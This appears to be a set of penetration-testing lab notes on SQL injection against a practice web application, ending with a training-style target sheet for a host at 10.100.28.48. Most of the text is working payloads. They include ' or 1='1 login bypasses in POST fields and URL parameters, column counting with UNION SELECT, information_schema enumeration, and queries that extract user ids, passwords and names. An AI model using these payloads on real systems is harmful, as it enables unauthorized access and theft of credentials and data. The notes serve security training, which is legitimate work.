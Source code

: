     https://sqlbolt.com
_________________________________________________________________________________________________________________
## Post method: In the username and password fields use single quote to create or statement to validate true. 
    ' or 1='1
_________________________________________________________________________________________________________________
## Get method: In the Inspector (right click) open the network tab use post method and run it, select the post method below and in the new pane select request tab and switch to raw. Copy that and paste to the URL and add a ? at the beginning.
    http://10.50.33.78/login.php?username='+or+1%3D'1&passwd='+or+1%3D'1
    http://10.50.33.78/login.php?username=%27+or+1%3D%271&passwd=%27+or+1%3D%271
_________________________________________________________________________________________________________________
# Golden Statement: 
UNION SELECT table_schema,table_name,column_name FROM information_schema.columns

-----------------------------------[column],[column],[column]----------------------[database],[table]------------
    
    mysql
    show databases ;
    use information_schema ;
    show tables from information_schema ;
    show columns from columns ;
    
    SELECT table_schema FROM information_schema.columns ;
    SELECT table_name FROM information_schema.columns ;
    SELECT column_name FROM information_schema.columns ;
    
    SELECT table_schema,table_name,column_name FROM information_schema.columns ;
    
    ##Examples:
    SELECT x,x,x FROM session.xxx
    SELECT name,cost,year FROM session.car ;
    SELECT id,name,pass FROM session.user ;    
_________________________________________________________________________________________________________________
## SQL Injection: Post Method
### 1-Identify Vulnerable Field.
#### The one that doesn't error out.
    Ford ' or 1='1
    Dodge ' or 1='1
    Honda ' or 1='1
    Audi ' or 1='1

### 2-Identify number of columns.
#### So you can find which fields need placeholders.
    Audi ' UNION SELECT 1,2,3,4 #
    Audi ' UNION SELECT 1,2,3,4,5 #
    
### 3-Modify Goldent Statement to include all information.
#### UNION SELECT table_schema,table_name,column_name FROM information_schema.columns
    Audi ' UNION SELECT table_schema,2,table_name,column_name,5 FROM information_schema.columns #

### 4-Craft the queries.
#### Pulling custom user created data from the database.
    Audi ' UNION SELECT tireid,2,name,size,cost FROM session.Tires #
    Audi ' UNION SELECT cost,2,size,name,5 FROM session.Tires #
_________________________________________________________________________________________________________________
## SQL Injection: Get Method (URL bar)
### 1-Identify Vulnerable Field.
#### Make selection, pass a true statement. OR 1=1
    10.50.33.78/uniondemo.php?Selection=1 OR 1=1
    10.50.33.78/uniondemo.php?Selection=2 OR 1=1
    10.50.33.78/uniondemo.php?Selection=3 OR 1=1
    10.50.33.78/uniondemo.php?Selection=4 OR 1=1
    10.50.33.78/uniondemo.php?Selection=5 OR 1=1

### 2-Identify number of columns.
#### Display table is out of order. 1,3,2
    10.50.33.78/uniondemo.php?Selection=3 UNION SELECT 1,2,3

### 3-Golden Statement from before.
#### Alter the options in the middle to match the table thats out of order.
    10.50.33.78/uniondemo.php?Selection=3 UNION SELECT table_schema,column_name,table_name FROM information_schema.columns
    
### 4-Modify the Goldent Statement.
#### Now able to alter options to pull back specific data.
    10.50.33.78/uniondemo.php?Selection=3 UNION SELECT id,pass,name FROM session.user
_________________________________________________________________________________________________________________
## Scheme of Maneuver:
### >Jump Box
### ->T1:10.100.28.48

## Target Section:

### T1
#### Hostname: donovian-nla
#### IP: 10.100.28.48
#### OS: unknown
#### Creds:unknown
#### Last Known SSH Port: unknown
#### Last Known HTTP Port: 80
#### PSP: Unknown
#### Malware: Unknown
#### Action: Conduct approved SQLi Exploitation techniques to collect intelligence.
_________________________________________________________________________________________________________________
